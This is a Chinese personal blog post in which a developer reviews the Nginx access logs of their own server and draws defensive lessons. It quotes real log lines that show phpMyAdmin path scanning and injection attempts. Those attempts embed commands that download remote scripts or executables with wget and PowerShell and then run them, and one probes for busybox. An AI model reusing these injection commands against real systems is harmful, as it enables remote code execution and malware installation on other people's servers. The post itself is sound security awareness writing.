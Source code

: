 ```yaml lw-blog-meta
title: 读Nginx日志有感
date: "2019-07-18"
brev: 【网络安全真的很重要】虽然在学习各种框架的时候，都会有五花八门的安全提示，但是我真的从没有认真去考虑过安全问题。这几天看了看自己Nginx服务器的日志，感觉有点后怕。
tags: [中间件]
```


## 还好我没有学PHP

肉眼所见，几乎全部都是针对`php`的攻击，主要分两种：

### 探测漏洞文件

可以看到从某个ip发来了无数个请求，请求各种看起来会很常见的php文件，像这样：

```shell
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMyAdmina/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMydmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMyAdmins/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:56 +0000] "GET /phpMyAdmin._/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpMyAdmin._2/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpmyadmin2222/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpmyadmin3333/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /php2MyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /phpiMyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /phpNyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
```

主要思路就是瞎猫碰死耗子，看看能不能蒙出你的管理页面（或者数据库之类的脚本），如果真的有的话，估计还有后续手段。

然后我们查一下这个ip地址，显示的信息是supercloud.cc（香港 环球全域电讯）的机房，
那估计是黑客在这里租了一个服务器作为跳板进行攻击了。

**收获：隐藏好你的管理页面，最好不要对外公开（或者限定ip访问）。**

### 注入脚本攻击

还可以看到有些请求是在url中附带了脚本命令，像这样：

```shell
89.248.174.198 - - [17/Jul/2019:23:56:44 +0000] "GET /shell?cd+/tmp;wget+http:/\x5C/89.248.174.198/jaws.sh+-O+-+>smoke.sh;chmod+777+smoke.sh;sh+smoke.sh HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36" "-"

49.234.49.224 - - [17/Jul/2019:19:53:26 +0000] "GET /public/hydra.php?xcmd=cmd.exe%20/c%20powershell%20(new-object%20System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe');start%20%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe HTTP/1.1" 404 555 "http://49.234.46.113:80/public/hydra.php?xcmd=cmd.exe /c powershell (new-object System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe');start %SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe" "Mozilla/4.0 (compatible; MSIE 9.0; Windows NT 6.1)" "-"

82.117.191.2 - - [17/Jul/2019:16:44:21 +0000] "GET /webadmin/script?command=|busybox HTTP/1.1" 400 157 "-" "Mozilla/5.0" "-"
```

主要思路就是，看能不能通过你的web服务，在你的主机上执行指定的命令。例如`chmod+777+smoke.sh`，
`wget+http:/\x5C/89.248.174.198/jaws.sh`，`DownloadFile('http://fid.hognoob.se/download.exe'`
这种，就算是外行也能感觉到很危险吧。

**收获：不要使用`root`权限用户运行web服务；无论何时，必须对用户提交的任何数据进行检查。**

这让我想起了`uWSGI`日志中的警告：

```text
uWSGI running as root, you can use --uid/--gid/--chroot options
*** WARNING: you are running uWSGI as root !!! (use the --uid flag) ***
```

有点不寒而栗的感觉。看来以后还是要乖乖听取前人的话才是。

## Good News

但在Internet上也不全是坏事。

我也看到了来自百度的问候：

```shell
123.125.67.156 - - [18/Jul/2019:02:50:16 +0000] "GET /robots.txt HTTP/1.1" 404 555 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.93 Safari/537.36" "-"

220.181.108.153 - - [18/Jul/2019:02:53:57 +0000] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)" "-"
```

非常友善地自报家门，甚至还会敲敲门（robot.txt）。

这也提醒了我，我还没设置`robot.txt`文件呢。不过我这也没什么秘密，直接建立一个空文件就好了。
详情参考[解释](https://www.robotstxt.org/robotstxt.html)。

## 小结

放眼望去基本都是针对`php`的攻击（没办法，谁让你这个`/php?xxxxx`是如此地个性呢）。
看完之后甚至想笑——还好我没学php。

当然，也有一些针对nginx的，还有一些看不出手段，但是也是通过脚本注入的形式来控制你的服务器。

相应的我觉得也有办法，使用虚拟机/容器技术，刚好就可以很大程度上的减少这类攻击带来的损失。

不过最好的还是要防患于未然了！

## 后记 （2020-05-27）

现在回头来看，这些所谓的”攻击“其实**可能**是云服务商自带的一些漏洞扫描，主要是扫描一些常见的低级错误。不用过于大惊小怪。不过谨慎些总是好的。
